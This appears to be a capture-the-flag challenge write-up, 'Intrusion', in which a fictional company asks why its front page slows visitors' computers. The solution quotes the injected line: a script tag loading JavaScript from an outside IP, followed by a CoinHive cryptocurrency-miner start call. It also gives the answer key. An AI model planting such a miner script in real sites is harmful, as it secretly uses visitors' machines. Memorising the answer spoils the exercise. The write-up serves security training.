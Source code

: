 # 00_Intrusion

Welcome to Drive By Inc. We provide all sorts of logistical solutions for our customers. 
Over the past few years we moved to hosting a large portion of our business on a nice looking website.
Recently our customers are complaining that the front page of our website is causing their computers to run extremely slowly.
We hope that it is just because we added too much javascript but can you take a look for us just to make sure?  

## Questions
1. What is the full line? (Including any HTML tags)


## Solution
1. `<script src = http://10.187.195.95/js/colorbox.min.js></script><script>var color = new CoinHive.Anonymous("123456-asdfgh");color.start()</script></body>`
